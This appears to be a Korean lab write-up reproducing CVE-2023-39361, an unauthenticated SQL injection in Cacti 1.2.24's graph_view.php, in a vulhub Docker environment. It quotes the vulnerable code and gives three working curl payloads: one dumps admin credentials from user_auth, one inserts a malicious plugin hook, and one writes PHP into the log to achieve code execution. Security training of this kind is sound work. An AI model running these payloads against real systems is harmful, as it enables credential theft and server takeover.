






# Cacti graph_view.php SQL Injection Leads to RCE (CVE-2023-39361)

화이트햇스쿨 2기 - [양채한(@c6an) ](https://github.com/c6an)


### 요약

Cacti(운영 모니터링 도구)은 1.2.24이하에서는  CVE-2023-39361의  CVSS 점수가 9.8인 위험 심각도 등급을 가지고 있습니다.

게스트 사용자가 'rfilter'매개변수로 SGQ인젝션 공격이 가능하도록 하는 graph_view.php에 취약점이 존재합니다.


참고문헌:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## 환경 설정

vulhub레포에서 fork 진행 후 본인 레포 클론하기
```
git clone https://github.com/본안ID/vulhub.git
cd vulhub/cacti/CVE-2023-39361
```

Cacti 1.2.24 서버를 시작합니다.

```
docker compose up -d
```

 Cacti 인터페이스에 접속할 수 있습니다. `http://your-ip:8080`.
  
  기본 사용자 계정은 admin/admin입니다.
  성공 페이지가 나타날 때까지 "다음" 버튼을 반복해서 클릭하세요.
  

설치 시작



CVE 취약점은 "로그인 없이" 접근하는 경우 발생.
guest유저가 해커인 상황을 위해서 `로그인` -> `Autentication`-> `guest`활성화 
Guest접근 권한을 열어줍니다.



## 취약점 설명

취약점은 `graph_view.php` 에 존재합니다.
게스트 사용자는 인증 없이 `graph_view.php`에 접근이 가능하며, 활성화된 상태에서 취약점 악용 시 SQL인젝션 공격이 가능합니다.

`grow_right_pane_tree`함수는 `graph_view.php`파일에서 호출되는 취약점을 포합하고 있습니다. 사용자 입력은 `tree_content` 케이스 에서 `html_validate_tree_vars` 함수 를 통해 검증됩니다.

이후 `tree_id` 매개변수가 0보다 큰 경우 `grow_right_pane_tree` 함수가 호출됩니다 


rfilter는 `grow_right_pane_tree`함수에서 바로 SQL퀴리 안에 들어가서 정규 검색 조건으로 사용합니다.

`graph_view.php`의 `html_validate_tree_vars` 함수가 정규 문접에 맞는 지 검사해주지만, SQL코드는 검사를 하지 않습니다.


```
function grow_right_pane_tree($tree_id, $leaf_id, $host_group_data) {
	// ...
	if (($leaf_type == 'header') || (empty($leaf_id))) {
		$sql_where = '';

		if (get_request_var('rfilter') != '') {
			$sql_where .= ' (gtg.title_cache RLIKE "' . get_request_var('rfilter') . '" OR gtg.title RLIKE "' . get_request_var('rfilter') . '")';
		}
		// ...

		$graph_list = get_allowed_tree_header_graphs($tree_id, $leaf_id, $sql_where);

}
```
## POC
SQL인젝션 관리자 정보를 탈취합니다.
```
curl "http:/your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa\"%20OR%20\"\"=\"((\"))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23"
```
graph_view.php 엔드포인트에 요청을 보내세요.

퀴리를 삽입합니다.
```
curl "http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa\"%20OR%20\"\"=\"((\"));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(\".\",\"login_before\",\"../log/cacti.log\",1);%23"

```
해당 파일을 가리키는 새로운 플러그인 후크를 추가합니다

로그에 PHP 코드를 작성합니다.
```
curl "http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa\"%20OR%20\"\"=\"((\"))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,\"<?php%20phpinfo();?>\",0x7e),null),8,9,10%23"

```
웹브라우저에서 `http://your-ip:8080` 접속 시 PHPINFO 함수가 실행되어 로그인 페이지에 액세스할 때 표시되며 원격 코드 실행이 성공적으로 이루어졌음을 확인합니다.


